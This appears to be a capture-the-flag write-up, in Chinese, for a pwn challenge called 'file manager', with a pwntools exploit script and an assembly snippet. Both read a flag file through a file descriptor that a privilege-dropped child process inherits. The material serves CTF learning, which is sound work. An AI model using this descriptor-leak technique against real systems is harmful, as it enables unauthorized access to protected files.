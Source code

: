 ## Pwn

### file manager

題目方向滿明顯的，如果能改 global variable `gid` 的值，這樣設 0 就是 root 了，所以應該沒辦法這樣做，不過當時花了很多時間在嘗試是否有其他作法。

exploit:

```python
#!/usr/bin/python3

from pwn import *
import sys
import base64

if len(sys.argv) > 1:
    r = remote('file.pwn.quals.r2s.tw', 34567)
else:
    r = process("./file_manager")

for _ in range(8):
    r.sendlineafter('Exit', '2')
    r.sendlineafter('File ID > ', '1')

r.sendlineafter('Exit', '1')
r.sendlineafter('File', '/home/file_manager/flag')
r.sendlineafter('Exit', '333')
sleep(0.5)
r.sendline("read aa <&3")
sleep(0.5)
r.sendline("echo $aa")
r.interactive()
```

Inherited file descriptor 可以被 drop privilege (`setgid`、`setuid`) 的 child process 所存取，而讀 file descriptor 的方式有:

- 指令 `read`
- 寫 asm 編譯後，透過 base64 encode/decode 在 client 與 server 間互傳

我第一個解法為寫 asm，而在後來有發現 `read` built-in command 也可以。

```asm
section .text
    global _start

_start:
    xor rax, rax
    mov rdi, 3
    mov rsi, rsp
    mov rdx, 0x50
    syscall

    mov rax, 1
    mov rdi, 1
    syscall
```
